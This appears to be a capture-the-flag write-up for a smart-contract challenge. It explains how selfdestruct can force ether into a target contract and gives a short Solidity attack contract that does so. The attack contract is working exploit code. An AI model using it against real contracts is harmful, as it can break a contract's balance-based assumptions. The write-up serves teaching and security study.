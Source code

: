 # Requirements

- Make the balance of the contract greater than zero.

# Attack explanation

selfdestruct(address) function removes all bytecode from a sc and sends all ether stored to the specified address. If specified address is also a contract, no functions get called. In other words, an attacker can forcefully send eth to a target.

# Attack function

We could solve the challenge by just using the following attack proxy sc:

```
contract MaliciousContract {
  address payable public vulnerableScAddress;
  address public attacker;

  constructor(address _vulnerableScAddress) payable {
      vulnerableScAddress = payable(_vulnerableScAddress);
      attacker = msg.sender;
  }

  function attack() public {
      selfdestruct(vulnerableScAddress);
  }
}
```
